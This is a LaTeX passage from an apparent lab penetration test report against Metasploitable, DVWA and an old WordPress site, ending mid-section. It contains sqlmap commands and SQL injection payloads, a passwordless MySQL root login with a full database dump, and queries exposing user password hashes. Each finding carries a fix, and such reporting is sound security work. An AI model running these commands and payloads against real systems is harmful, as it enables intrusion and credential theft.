\./sqlmap.py -u "http://metasploitable.sait230.ca/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=40ae620791b3658e5ee7eaaefbef49dc;" --tables
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4543=4543 AND 'qoRs'='qoRs&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: id=1' AND (SELECT 1602 FROM(SELECT COUNT(*),CONCAT(0x3a716a663a,(SELECT (CASE WHEN (1602=1602) THEN 1 ELSE 0 END)),0x3a6664633a,FLOOR(RAND(0)*2))x FROM INFORMATION_
SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'lZPr'='lZPr&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' LIMIT 1,1 UNION ALL SELECT CONCAT(0x3a716a663a,0x4b574169554a4c62647a,0x3a6664633a), NULL#&Submit=Submit

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind
    Payload: id=1' AND SLEEP(5) AND 'QNHQ'='QNHQ&Submit=Submit
---
\end{lstlisting}

Here's a listing of the files:

\begin{lstlisting}[language=Bash,basicstyle=\tiny]
root@bt-was:/pentest/database/sqlmap# tree -L 1 output/metasploitable.sait230.ca/dump/
output/metasploitable.sait230.ca/dump/
├── dvwa
├── information\_schema
├── mysql
├── owasp10
├── tikiwiki
└── tikiwiki195

6 directories, 0 files

├── guestbook.csv
└── users.csv

0 directories, 2 files
\end{lstlisting}

It looks like the dvwa web application running on bwa.sait230.ca was connecting to an
instance of mysql running from metasploitable.sait230.ca. Using this sql injection vulnerability
I was able to dump the dvwa database as well as all the other databases
running from metasploitable.sait230.ca database server.

\paragraph{Recommendation}

Validate all user input. Use a different mysql accounts for each web application.
Consider hosting each database on a separate database server.

\newpage
\section{Root access to MySQL server}

\begin{description}
  \item[Severity] High
  \item[Impact] Full data loss.
  \item[Affected Resources/System] metasploitable.sait230.ca
  \item[Summary] MySQL root account has no password.
\end{description}

\paragraph{MySQL}
Port 3306 is open on this host. This port
is used by MySQL. I connected to this port using the MySQL client and
used the default mysql installation user `root' without a password.

\begin{lstlisting}[basicstyle=\tiny]
root@bt-was:~# mysql -uroot -h metasploitable.sait230.ca
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 36239
Server version: 5.0.51a-3ubuntu5 (Ubuntu)

Copyright (c) 2000, 2011, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information\_schema |
| dvwa               |
| metasploit         |
| mysql              |
| owasp10            |
| tikiwiki           |
| tikiwiki195        |
+--------------------+
7 rows in set (0.00 sec)

mysql> 

\end{lstlisting}

I was able to connect to the mysql server as the root mysql
account. This gave me full access to all databases on the database server.

I used mysqldump to get a dump of all the databases on this host for offline analysis.

\begin{lstlisting}[basicstyle=\tiny]
root@bt-was:~# mysqldump -uroot -h metasploitable.sait230.ca \
  --all-databases > all-databases.sql
\end{lstlisting}

\newpage
With full root access and a mysql shell I can insert rows into any table in any database.
I can update any record and I can read all information in all tables.

\begin{lstlisting}[language=SQL,basicstyle=\tiny]
mysql> use dvwa
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
2 rows in set (0.00 sec)

mysql> desc users;
+------------+-------------+------+-----+---------+-------+
| Field      | Type        | Null | Key | Default | Extra |
+------------+-------------+------+-----+---------+-------+
| user_id    | int(6)      | NO   | PRI | 0       |       |
| first_name | varchar(15) | YES  |     | NULL    |       |
| last_name  | varchar(15) | YES  |     | NULL    |       |
| user       | varchar(15) | YES  |     | NULL    |       |
| password   | varchar(32) | YES  |     | NULL    |       |
| avatar     | varchar(70) | YES  |     | NULL    |       |
+------------+-------------+------+-----+---------+-------+
6 rows in set (0.00 sec)

mysql> select user, password from users;
+---------+----------------------------------+
| user    | password                         |
+---------+----------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb | e99a18c428cb38d5f260853678922e03 |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 |
| NULL    | NULL                             |
+---------+----------------------------------+
6 rows in set (0.01 sec)
\end{lstlisting}

\paragraph{Recommendation}

Require all MySQL accounts to have a password.
Create firewall rules to filter which hosts can connect to the MySQL server.

\paragraph{References}

\begin{enumerate}
  \item http://dev.mysql.com/doc/refman/5.7/en/security-against-attack.html
  \item https://dev.mysql.com/doc/refman/5.1/en/default-privileges.html
\end{enumerate}

\newpage
\section{Vulnerable Wordpress Spreadsheet Plugin}
\begin{description}
  \item[Severity] High
  \item[Impact] Admin account on wordpress site.
  \item[Affected Resources/System] http://bwa.sait230.ca/wordpress
  \item[Summary] Wordpress plugin has a SQL injection vulnerability
\end{description}

\paragraph{Wordpress}

Using wpscan we scanned this wordpress installation to find a list of installed plugins.

\begin{lstlisting}[language=Bash, firstline=26, lastline=39]
root@bt-was:/pentest/web/wpscan# ./wpscan.rb --url bwa.sait230.ca/wordpress --enumerate p
____________________________________________________
 __          _______   _____                  
 \ \        / /  __ \ / ____|                 
  \ \  /\  / /| |__) | (___   ___  __ _ _ __  
   \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
    \  /\  /  | |     ____) | (__| (_| | | | |
     \/  \/   |_|    |_____/ \___|\__,_|_| |_| v1.1

  WordPress Security Scanner by ethicalhack3r.co.uk
 Sponsored by the RandomStorm Open Source Initiative
_____________________________________________________


| URL: http://bwa.sait230.ca/wordpress/
| Started on Fri Feb 12 14:40:44 2016

[!] The WordPress theme in use is called "default".
[!] The WordPress "http://bwa.sait230.ca/wordpress/readme.html" file exists.
[!] WordPress version 2.0 identified from meta generator.

[+] Enumerating installed plugins...

Checking for 2892 total plugins... 100% complete.

[+] We found 2 plugins:

Name: mygallery
Location: http://bwa.sait230.ca/wordpress/wp-content/plugins/mygallery/
Directory listing enabled? Yes.

Name: wpSS
Location: http://bwa.sait230.ca/wordpress/wp-content/plugins/wpSS/
Directory listing enabled? Yes.

[+] There were 1 vulnerabilities identified from the plugin names:

[!] Wordpress Plugin Spreadsheet <= 0.6 SQL Injection Vulnerability
* Reference: http://www.exploit-db.com/exploits/5486/

[+] Finished at Fri Feb 12 14:40:49 2016
\end{lstlisting}

\newpage
wpscan has detected 1 vulnerable plugin that will allow SQL injection. So I went
to exploit db to get the details for this vulnerability.

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/wp-exploitdb.png}
	\caption{Wordpress SQL injection exploit.}
	\label{fig:wordpress1}
\end{figure}

\newpage
\paragraph{SQL Injection}
Then I crafted the url to exploit the SQL injection vulnerability.

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/wp-admin-credentials.png}
	\caption{Wordpress SQL injection admin credentials.}
	\label{fig:wordpress2}
\end{figure}

Using the SQL injection vulnerability I was able to get the admin credentials for this wordpress site.\ 

\begin{description}
  \item[email] admin@example.org
  \item[username] admin
  \item[password] 21232f297a57a5a743894a0e4a801fc3
\end{description}

\newpage
I then took the MD5 hash for the admin account and looked up the reversed value for it.

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/wp-admin-md5.png}
	\caption{Wordpress reverse md5 hash.}
	\label{fig:wordpress3}
\end{figure}

\newpage
Next I logged in to the wordpress site.

\begin{figure}[h!]
